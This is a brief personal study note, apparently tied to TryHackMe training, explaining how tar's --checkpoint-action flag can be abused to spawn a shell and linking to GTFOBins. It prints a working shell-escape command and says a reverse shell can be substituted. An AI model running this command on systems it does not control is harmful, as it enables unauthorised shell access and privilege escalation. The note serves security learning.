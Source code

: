 # Exploiting "tar"

author:: Nathan Acks  
date:: 2021-11-02

Tar can be configured to execute an action for every N files processed using the --checkpoint and --checkpoint-action flags. So this will get us a shell:

```bash
tar -cf /dev/null /dev/null \
    --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

This works with any input/output file (not just /dev/null), and with any executable binary (such as a reverse shell).

* [TryHackMe: Complete Beginner](tryhackme-complete-beginner.md)
* [GTFOBins: tar](https://gtfobins.github.io/gtfobins/tar/)
